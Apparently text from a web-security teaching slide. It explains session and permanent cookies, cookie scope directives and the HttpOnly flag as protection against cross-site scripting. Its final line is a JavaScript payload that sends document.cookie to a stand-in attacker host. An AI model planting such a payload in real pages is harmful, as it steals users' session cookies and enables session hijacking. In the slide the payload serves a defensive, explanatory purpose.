

# Cookie theory
Session cookies: A session cookie will get removed when the client is shut down, they last only for the duration of the session. They don't specify any Expires or Max-Age directives.
Note, however, that web browsers often have session restoring enabled, which will make most session cookies actually permanent as if the browser was never closed.
Permanent cookies: Instead of expiring when the client is closed, permanent cookies expire at a specific date (Expires) or after a specific length of time (Max-Age).
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
The Domain and Path directives define the scope of the cookie, that is the set of URLs the cookies should be sent back to.
Cookies are often used in web application to identify a user and their authenticated session.
So stealing a cookie from a web application can lead to hijacking the authenticated user's session
HttpOnly cookies: To prevent cross-site scripting (XSS) attacks, HTTP-only cookies aren't accessible via JavaScript through the Document.cookie property or the XMLHttpRequest API. Set this flag when you don't need your cookies available in JavaScript. In particular, if you use cookies only to define a session, you don't need it in JavaScript and the HttpOnly flag should be set.
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; HttpOnly

(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;